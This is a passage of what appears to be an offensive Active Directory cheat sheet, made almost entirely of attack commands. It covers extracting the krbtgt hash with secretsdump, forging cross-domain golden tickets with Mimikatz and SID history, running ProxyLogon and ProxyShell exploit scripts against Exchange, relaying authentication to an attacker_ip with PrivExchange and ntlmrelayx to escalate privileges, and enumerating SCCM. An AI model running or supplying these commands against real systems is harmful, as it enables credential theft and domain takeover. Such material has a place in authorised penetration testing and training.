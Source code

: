 ### 🔄 Advanced Trust Attacks

#### Cross-Domain Attacks

```bash
# Linux - Get foreign domain info
GetADUsers.py -all -dc-ip FOREIGN_DC_IP foreign.domain.com/user:password
GetUserSPNs.py -dc-ip FOREIGN_DC_IP foreign.domain.com/user:password -request

# Trust key extraction
secretsdump.py domain.com/Administrator@DC_IP -just-dc-user "krbtgt" -just-dc-ntlm
```

#### Windows - Cross-Domain

```powershell
# PowerView Cross-Domain
Get-DomainTrust -Domain domain.com
Get-DomainUser -Domain foreign.domain.com
Get-DomainForeignUser -Domain foreign.domain.com
Get-DomainForeignGroupMember -Domain foreign.domain.com

# Mimikatz Trust Attack
kerberos::golden /user:Administrator /domain:child.domain.com /sid:S-1-5-21-xxx-xxx-xxx /sids:S-1-5-21-yyy-yyy-yyy-519 /krbtgt:HASH /ticket:trust.kirbi
```

### 📧 Exchange Attacks

#### ProxyLogon/ProxyShell

```bash
# ProxyLogon
python3 proxylogon.py exchange.domain.com Administrator password

# ProxyShell
python3 proxyshell.py -t https://exchange.domain.com -u lowpriv@domain.com -p password -c "whoami"
```

#### PrivExchange

```bash
# PrivExchange
python3 privexchange.py -u lowpriv -p password -ah attacker_ip exchange.domain.com
ntlmrelayx.py -t ldap://DC_IP --escalate-user lowpriv
```

### 🖥️ SCCM Attacks

#### SCCM Enumeration

```bash
# SCCMHunter
python3 sccmhunter.py find -dc-ip DC_IP -u lowpriv -p password

# Windows
Get-WmiObject -Class SMS_Site -Namespace root\sms -ComputerName SCCM_SERVER
```
